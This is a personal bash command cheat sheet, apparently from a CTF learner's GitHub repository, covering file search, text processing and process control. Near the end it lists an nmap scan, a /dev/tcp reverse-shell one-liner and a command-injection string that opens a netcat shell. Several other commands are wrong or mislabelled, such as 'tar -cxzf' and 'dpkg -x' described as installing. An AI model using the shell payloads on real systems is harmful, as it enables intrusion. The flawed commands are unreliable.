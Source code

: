 * find all mp3 files in current directory and create a playlist. \; denotes the end of command
```bash
find . -maxdepth 1 -name "*.mp3" -exec echo "play" {} \; > playlist
```

* Shuffles the lines of a file -R = random
```bash
sort -R playlist -o playlist
```

* Shuffles the fast way (ONLY WORKS with file that has run permission)
```bash
shuf FILE | tee FILE
```

* Convert Chinese unreadable filename to correct filename (AWESOME)
```bash
7z x -scs903 ZIPFILE.zip
```

* Find /Search a string in current directory (-w stand for whole word, -r recursive)
```bash
grep -rnw . -e "STRING"
```

* Insert a newline at a specific line with sed -i [--in-place]
```bash
sed -i '$LINE_NUMi \n' foo.txt 
```

* Read all files in a directory line by line
```bash
ls | while read f; do while read -r line; do echo $line; done < $f ; done
```
* Search though a directory recursively with grep, kind of like reading line by line, -i ignore case, -l output filename that match, -L filename that doesn't match
```bash
grep -r --include '*.py' STRING .
```

* Copy an entire directory to another directory
```bash
cp -R source dest
```

* Get the size of a directory with du -s (summary) -h human readable
* Get details of a directory -h human readable, -a show hidden, -l print details, -s sort by date
```bash
ls -halt
```

* Find all file with certain extension
```bash
find `pwd` -type f -name "*.txt"
```

* Save the output of a command to a variable
```bash
cwd=$(pwd)
```

* Run a process in the background using & (-c: create a new archive; -x: extract; -z: gunzip; -f : file)
```bash
tar -cxzf file.tar.gz . &
```

* Check current running processes
```bash
jobs
||
ps
```

* Retrieve the first word from stdout
```bash
echo "hello world" | awk '{print $1;}'
||
echo "hello world" | cut -f 1 -d " "
```

* Use nohup to enable a process to continue running in the background when a user exits shell (DETACH FULLY)
```bash
nohup tar -czf file.tar.gz &
```

* Does the above without creating nohup.out 
```bash
nohup COMMAND >/dev/null 2>&1 &
```

* Copy a file content to system clipboard
```bash
xclip -sel clip < FILE
```

* kill a process with ps
```bash
ps -eaf | grep vim
kill 1337
||
kill $(ps | grep play | awk '{print $1;}')
```

* kill a process with pkill (MUCH EASIER :D)
```bash
pkill vim
```

* kill a background process
```bash
jobs
kill %1
```

* Unzip a tarball
```bash
tar xf FILE.tar.xz
```

* Change directory to the output of a command
```bash
cd "$(dirname "$(which FILE)" )"
```

* Change directory to the previous directory!
```bash
cd ${cd -}
||
cd $OLDPWD
```

* Awk with print. echo "Hello World" | awk '{print $1}', prints first field.
```bash
echo "Hello World" | awk '{print $1}'
```

* echo with -e interpretation of back slashes
```bash
echo -e "Hello \n World"
```

* Replace HTTPS with SSH git push
```bash
git remote set-url origin git@github.com:saccharide/google-ctf-2018
```

* Install .deb packages
```bash
dpkg -x file.deb
```

* Install / open .rpm files
```bash
sudo apt install rpm2cpio
rpm2cpio /path-to-file.rpm | cpio -i --make-directories
```

* Clear from cursor to the beginning of a line
```bash
CTRL + u
```

* Clear from cursor to the end of a line
```bash
CTRL + k
```

* Clears one character to the right of cursor 
```bash
CTRL + d
```

* Clears one word to the left of the cursor
```bash
ESC + Backspace
```

* Clears one word to the right of the cursor
```bash
ESC + d
```
* Cut (returns Hello) -d = deliminator, -f = field (fields are numbered from 1)
```bash
echo "Hello World" | cut -d ' ' -f 1
```

* grep exclude a file of strings
```bash
grep -avf "FILE.txt"
```

* Xargs usage, useful pipes, but require the flag -print0, -I: replaces occurrence of replace-str in the initial arguments with names read from std in
```bash
find . -type f -name "*.mp3" -print0 | xargs -0 -I file cp file dir/
||
ls | grep mp3 | xargs -I file cp file dir/
ls | grep -avf "BLACKLIST" | xargs -I file COMMANDS file
```

* 7z is officially weird... the arguments it take have to be right afterwards...
```bash
7z x ZIP.zip -oEXTRACTED
```

* tr. It translates and/or deletes chars from stdin input, and writes to stdout. -d: deletes all occurrence, -s: make repeated sequential characters only appear once
```bash
tr [a-z] [A-Z] < lowercase.txt > uppercase.txt
cat file.txt | tr -d ' '
cat file.txt | tr -s '.'
```

* grip. Using grip to build markdown files locally. -b: opens up a browser tab.
```bash
grip -b FILE.md
```

* cut with tabs ... there is an easy way... cut by default split by tabs...
```bash
cat FILE | cut -d $'\t' -f 2
||
cat FILE | cut -f 2
```

* Reading certain types of file line by line with find
```bash
for file in $(find . -type f -name "*.txt")
do
cat $file
done
```

* Redirection
```bash
ls DIR > dirlist
">" Redirects output
">>" Appends output to an existing file
"<" Takes in input
">&" Redirects output of one file to another, e.g. "2>&1" redirects error to output (pre bash 4.0)
"&>>" does the above in post Bash 4.0 and apending it to a file
"&>" does the above but overwrites the target file
``` 

* nmap -A: Aggressive mode
```bash
nmap -A IP
```

* Check architecture
```bash
dpkg --print-architecture
```

* Interactive bash shell
```bash
/bin/bash -i > /dev/tcp/IP/PORT 0<&1 2>&1
```
* Check OS version
```bash
lsb_release -a
```
* Another way to get reverse shell with command execution
```bash
192.168.0.18; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc -lp 9999 > /tmp/f
```

* Print out the content of a file at LINE number (-n in sed is quiet)
```bash
awk 'NR=LINE{print}' FILE
sed -n -e LINEp FILE
sed -n LINEp FILE
sed -n 'LINE{p;q}' FILE
```

* Print out a range of line of a file
```bash
sed -n -e '100,110 p' FILE
sed -n 100,110p FILE
```

* Output the first X line of a file
```bash
sed 'X{p;q}' FILE
head -n X FILE
```
